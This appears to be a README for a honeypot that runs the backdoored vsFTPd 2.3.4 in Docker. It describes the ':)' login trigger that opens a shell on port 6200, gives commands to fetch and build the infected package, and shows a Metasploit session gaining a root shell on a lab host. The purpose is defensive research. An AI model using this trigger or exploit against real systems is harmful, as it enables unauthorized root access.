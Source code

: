 ### vsFTPd 2.3.4

As this is in the Honey Net branch, you should assume that it is meant for creation of Honey Pots only. 

You should never expose this build in your actual network unless you take proper precautions.

This is a build for the original backdoored vsFTPd 2.3.4 software.

The way the exploit works is by sending any login string with a smiley face at the end such as:

```
USER nks:)
PASS noclue
```
This will break out a backdoor on port 6200 which you can then connect to and get access to the system.

The way it was backdoored was with rogue functions in 2 .C files and then re-uploaded to the original hosting website, until someone found it.

Since this is a well known vulnerability, it will do well in a Honey Pot, more specifically, it will be useful to filter out typical scanners from someone that is actually trying to exploit your network. 

When this kind of action is logged in whatever solution you want to use, you can blacklist that IP before it continues attacking the rest of your network. 

Since attackers usually go for weaker targets first, they should focus on this kind of application before anything else, which will give you ample time to prepare and blacklist. This can also serve for re-search purposes, as depending on your logging software, you can log what the attacker is doing once they gain access.

INSTRUCTIONS:

1. https://hub.docker.com/r/nksnksnks/vsftpd.2.3.4-vuln-osvdb-73573/

Pull the image from here with:

```
docker pull nksnksnks/vsftpd.2.3.4-vuln-osvdb-73573
```

If this is successfull, skip to step 4 and add the appropriate image name or better yet follow the instructions on the Link above.

If for some reason you can't pull and wan't do to it manually, follow the steps below.

2. Download all of the files from the repository, including the vulnerable application.

The way I do this that is most efficient is right clicking on the Download button for example at the .tar.gz app and clicking on Copy Link Location.

Then you can go to your server and download it via:

```
wget https://github.com/n-ks/Honey-Net/raw/master/FTP/vsFTPd%202.3.4/vsftpd-2.3.4-infected.tar.gz (Re-Do this yourself, the URL here might change)
```

3. Once you have all of your files in one location, extract the .tar.gz with:

```
tar xvf vsftpd-2.3.4-infected.tar.gz
```

4. Everything you need should be there, now can you build your Docker Image:

```
docker build -t vsftpd.2.3.4 .
```

Note that since it will install,update,upgrade stuff this can take a while. (Some errors are also normal, especially in the manual build)

4. After your image is successfully built, you can raise it with:

```
docker run -itd -p 21:21 -p 6200:6200 vsftpd.2.3.4
```

Note that if you do not want this application to be vulnerable and only want attackers to try and break in and not actually succeed you can remove -p 6200:6200. (The actual backdoor port) So basically the Docker will be exploited and will open a 6200 port but not to your host system.

5. To enter your new container and install whatever logging system you want, you can do the following:

```
docker exec -u 0 -it <container-name> bash
```

6. Congratulations, you have a working vulnerable app.

___NOTE: The OS on which this was tested was Ubuntu 16.04 LTS with Docker CE installed.___

___NOTE 2: The image used from Docker Hub is Debian based, so any logging solution that you can think of that will work with Debian will probably work for you, only thing to keep in mind is the ports you'll need to add for said solution.___

___NOTE 3: Make sure you limit your containers resources and security so it doesn't spread on your host in any way.___

Result:

```
msf > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 192.168.1.3
RHOST => 192.168.1.3
msf exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.1.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.1.3:21 - USER: 331 Please specify the password.
[+] 192.168.1.3:21 - Backdoor service has been spawned, handling...
[+] 192.168.1.3:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.1.4:43985 -> 192.168.1.3:6200) at 2018-05-30 11:58:15 +0200

id
uid=0(root) gid=0(root) groups=0(root)
^C
Abort session 1? [y/N]  y

[*] 192.168.1.3 - Command shell session 1 closed.  Reason: User exit
msf exploit(unix/ftp/vsftpd_234_backdoor) > 
```

I've used one of the more general exploits to get in, with MSF, which was successfull.
